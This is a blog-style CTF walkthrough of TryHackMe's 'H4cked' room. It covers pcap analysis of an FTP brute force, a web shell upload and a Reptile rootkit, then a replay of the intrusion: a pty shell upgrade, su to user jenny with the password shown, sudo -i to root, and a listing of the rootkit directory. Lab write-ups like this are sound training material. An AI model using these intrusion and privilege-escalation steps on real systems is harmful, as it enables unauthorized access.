 ```yaml
---
layout: post
title: H4cked
date: 2021-03-26 00:00:01 +5:30
categories: [Tryhackme, Easy]
tags: [pcap, wireshark, ftp] # add tag
---
```



## Walkthrough

### TASK I (Analysing the pcap)

Loaded the pcap in wireshark and started by following the tcp stream

![PCAP1](/assets/img/hacked/pcap1.png)

The attacker was bruteforcing FTP might be using hydra.<br />

![PCAP2](/assets/img/hacked/pcap2.png)
They got successful login into ftp

![PCAP3](/assets/img/hacked/pcap3.png)
By Analysing the action it seems the attacker uploaded a shell in web directory and got remote access.

Then it seems they uploaded a rootkit named reptile to maintain access.

### TASK II (Hack Again)

Again let's start by attacking ftp using hydra.
![hacked1](/assets/img/hacked/hacked1.png)

Changing the IP

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$ ls -la
ls -la
total 1529952
drwxr-xr-x  22 root root       4096 Feb  2 10:28 .
drwxr-xr-x  22 root root       4096 Feb  2 10:28 ..
drwxr-xr-x   2 root root       4096 Feb  1 20:11 bin
drwxr-xr-x   3 root root       4096 Feb  1 20:15 boot
drwxr-xr-x  17 root root       3700 Mar 26 04:16 dev
drwxr-xr-x  94 root root       4096 Feb  2 10:52 etc
drwxr-xr-x   3 root root       4096 Feb  1 20:05 home
lrwxrwxrwx   1 root root         34 Feb  1 19:52 initrd.img -> boot/initrd.img-4.15.0-135-generic
lrwxrwxrwx   1 root root         33 Jul 25  2018 initrd.img.old -> boot/initrd.img-4.15.0-29-generic
drwxr-xr-x  22 root root       4096 Feb  1 22:06 lib
drwxr-xr-x   2 root root       4096 Feb  1 20:08 lib64
drwx------   2 root root      16384 Feb  1 19:49 lost+found
drwxr-xr-x   2 root root       4096 Jul 25  2018 media
drwxr-xr-x   2 root root       4096 Jul 25  2018 mnt
drwxr-xr-x   2 root root       4096 Jul 25  2018 opt
dr-xr-xr-x 110 root root          0 Mar 26 04:15 proc
drwx------   3 root root       4096 Feb  2 10:23 root
drwxr-xr-x  27 root root        840 Mar 26 04:21 run
drwxr-xr-x   2 root root      12288 Feb  1 20:11 sbin
drwxr-xr-x   3 root root       4096 Feb  1 20:07 srv
-rw-------   1 root root 1566572544 Feb  1 19:52 swap.img
dr-xr-xr-x  13 root root          0 Mar 26 04:16 sys
drwxrwxrwt   2 root root       4096 Mar 26 04:17 tmp
drwxr-xr-x  10 root root       4096 Jul 25  2018 usr
drwxr-xr-x  13 root root       4096 Feb  2 10:28 var
lrwxrwxrwx   1 root root         31 Feb  1 19:52 vmlinuz -> boot/vmlinuz-4.15.0-135-generic
lrwxrwxrwx   1 root root         30 Jul 25  2018 vmlinuz.old -> boot/vmlinuz-4.15.0-29-generic
www-data@wir3:/$ sudo -l
sudo -l
[sudo] password for www-data:





Sorry, try again.
[sudo] password for www-data:
Sorry, try again.
[sudo] password for www-data:

sudo: 3 incorrect password attempts
www-data@wir3:/$ su jenny
su jenny
Password: 987654321

jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
jenny@wir3:/$ sudo -i
sudo -i
root@wir3:~# ls
ls
Reptile
root@wir3:~# ls -la
ls -la
total 20
drwx------  3 root root 4096 Feb  2 10:23 .
drwxr-xr-x 22 root root 4096 Feb  2 10:28 ..
lrwxrwxrwx  1 root root    9 Feb  2 10:20 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  7 root root 4096 Feb  2 10:23 Reptile
root@wir3:~# cd Re
cd Reptile/
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
```
